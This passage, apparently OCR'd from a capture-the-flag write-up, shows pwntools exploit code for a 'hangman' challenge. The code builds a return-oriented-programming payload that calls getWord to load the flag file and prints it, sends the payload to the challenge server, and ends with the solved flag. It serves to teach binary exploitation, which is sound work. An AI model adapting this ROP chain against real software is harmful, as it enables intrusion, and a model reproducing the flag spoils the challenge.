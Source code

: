 ```py
    # have some big number; in our case, 0x100. The gadget comes together with 
    # "pop r15", so we need to give some random value, just so we can ignore it.
    payload += pop_rsi__pop_r15__ret_addr + getWord_arg2 + p64(0x1337)

    # Now we finally jump to the function getWord, where the file "flag" will be loaded
    # into memory and the address of the content buffer returned, or in other words, saved into RAX.
    payload += getWord_func_addr

    # Now the only thing we need, is to print the flag. So let's just call to our last
    # gadget that will take care of copying the address of the flag from RAX into RSI and passing it to printf.
    payload += print_block_addr

    # New line to finish the input
    payload += '\n'

    # And we have our payload!!!

    return payload


def main():
    binary = './hangman'
    io = remote('challenges1.hexionteam.com', 3000)
    payload = create_payload(binary)

    # Now let's send it and get ourselves our nice flag!!!
    io.send(payload)
    out = io.recvall()
    
    print re.search('hexCTF{.*}', out).group(0)


if __name__ == '__main__':
    main()
```

Flag: hexCTF{e1th3r_y0u_gu3ss_0r_y0u_h4ng}

